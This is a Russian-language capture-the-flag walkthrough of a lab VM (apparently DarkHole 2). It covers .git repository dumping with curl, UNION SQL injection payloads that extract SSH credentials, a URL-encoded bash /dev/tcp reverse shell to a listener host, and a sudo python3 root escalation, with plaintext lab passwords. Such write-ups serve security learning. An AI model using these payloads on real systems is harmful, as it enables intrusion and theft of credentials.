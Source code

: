 >[!tip]- Nmap
>PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
|   256 cc:64:fd:7c:d8:5e:48:8a:28:98:91:b9:e4:1e:6d:a8 (ECDSA)
|_  256 9e:77:08:a4:52:9f:33:8d:96:19:ba:75:71:27:bd:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: LightHill V2
| http-git: 
|   192.168.1.83:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 00:0C:29:FF:6B:E0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

После сканирования видим php сайт с открытым .git (ознакомление [Простой способ взлома сайта для получения его Git-данных (nuancesprog.ru)](https://nuancesprog.ru/p/9294/?ysclid=m1yoyy3rkt850260749))
## Изучим .git/logs/HEAD.
Как видим было несколько изменений( ***можно взять интересующий нас хеш прямо отсюда***)
находим файл .git/refs/heads/master и получаем хеш  (0f1d821f48a9cf662f285457a5ce9af6b9feb2c4) ==0f является именем поддиректории находящийся в .git/objects==
1. в корне делаем ``get init`` для создания структуры .git
2. Создаем директорию ``mkdir ./git/objects/**0f** ``
3. С помощью curl забираем нужный файл с машины жертвы и отправляем в созданную директорию: 
``curl 192.168.72.135:80/.git/objects/0f/1d821f48a9cf662f285457a5ce9af6b9feb2c4 --output .git/objects/0f/1d821f48a9cf662f285457a5ce9af6b9feb2c4``
4. затем читаем файл:
``git cat-file -p 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4``
![](../../../attachment/Pasted%20image%2020241007113806.png)
Как видим в файле есть дерево, которое связанное с этим комитом. Можно его изучить используя предыдущие команды для каждого хеша (создаем папку с 2-мя первыми буквами хеша,загружаем файл с помощью curl, читаем его).
5. После изучения logs/HEAD мы видим что 
хеш (a4d900a8d85e8938d3601f3cef113ee293028e10) связывает нас с страницой авторизации с дефолтными кредами и мы также видим этот хеш в ранее изученом файле.
Изучим хеш (a4d900a8d85e8938d3601f3cef113ee293028e10) таким же способом как и раньше
![](../../../attachment/Pasted%20image%2020241007114519.png)
1. Уже в это хеше пойдем по дереву 9d....
![](../../../attachment/Pasted%20image%2020241007114550.png)
1. Изучим login.php так как там должны быть стандартные креды для входа
![](../../../attachment/Pasted%20image%2020241007114656.png)
Заходим на сайт с помощью полученных данных
## Из строки URL видно что есть запросы к базе
![](../../../attachment/Pasted%20image%2020241007114759.png)
Попытаемся ввести 0 или NULL и получаем пустую карточку.
Изучим количество столбцов в таблице с помощью запроса в URL строке:
``id=1' ORDER BY 5 -- -``
Перебирая (ORDER BY x -- -) узнаем что всего 6 строк. 
Узнаем где какая строка отображается на сайте:
``id=NULL' UNION ALL SELECT 1,2,3,4,5,6 -- -``
![](../../../attachment/Pasted%20image%2020241007115102.png)
Теперь можно получить больше информации о самой таблице (с помощью запроса к стандартной БД ):
``id=NULL' UNION ALL SELECT 1,GROUP_CONCAT(schema_name()),3,4,5,6 FROM information_schema.schemata -- -``
schema_name ( возвращает имена системных схем и пользовательских схем)
information_schema.schemata (стандартная база данных). На выходе в строке "Full name" в конце будет указано название таблиц (darkhole_2)
Узнаем какие таблицы есть в полученной БД:
``id=NULL' UNION ALL SELECT 1,GROUP_CONCAT(table_name),3,4,5,6 FROM information_schema.tables WHERE table_schema='darkhole_2'-- - ``
Получаем информацию о наличие таблицы ssh. Узнаем какие столбцы есть в этой таблицы
``id=NULL' UNION ALL SELECT 1,GROUP_CONCAT(column_name),3,4,5,6 FROM information_schema.columns WHERE table_name='ssh'-- -``
В поле "Full name" увидим id,pass,user. Нам интересны последние два:
``id=NULL' UNION ALL SELECT 1,user,pass,4,5,6 FROM ssh-- -``
В поле 2 и 3 (Full name и Email) увидим логин и пароль для входа в ssh
## Заходим в ssh и получаем первый флаг юзера. 
Проводим энумерацию системы (более всего интересно где можем записывать информации и что исполнять от судо)
Загружаем linpeas в папку /tmp,выдаем права и запускаем
После работы linpeas видим что машина подвержена CVE 2021-4034 (PwnKit). После попытки запуска - результата не появилось. Обратимся к другой интересной записи linpeas,а именно cron jobs и задачу от пользователя losy

Изучим директорию и увидим код php, который может удаленно выполнять команды
![](../../../attachment/Pasted%20image%2020241007121827.png)
запустим ssh заново  с туннелированием 9999 порта:
``ssh -L 9999:127.0.0.1:9999 jehad@192.168.72.135``
Затем мы можем посетить сайт 127.0.0.1:9999 и отправить запрос 
![](../../../attachment/Pasted%20image%2020241007122445.png)
Забираем второй флаг
Получим reverse shell для пользователя losy
``nc -lvnp 8888``
в url строку вставляем ``%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%37%32%2e%31%33%32%2f%38%38%38%38%20%30%3e%26%31%27 ( закодированный bash -c 'bash -i >& /dev/tcp/192.168.72.132/8888 0>&1' )``
Получаем шелл и проводим энумерацию 
Читаем .bash-history и видим пароль losy:gang
Вводим ``sudo -l -S`` и видим что можем использовать /usr/bin/python3
![](../../../attachment/Pasted%20image%2020241007125444.png)
заходим на gtfobins  и смотрим что можно сделать с python имея права sudo:
``python3 -c 'import os; os.system("/bin/sh")'``
вводим пароль от losy (gang) и получаем рут![](../../../attachment/Pasted%20image%2020241007125838.png)
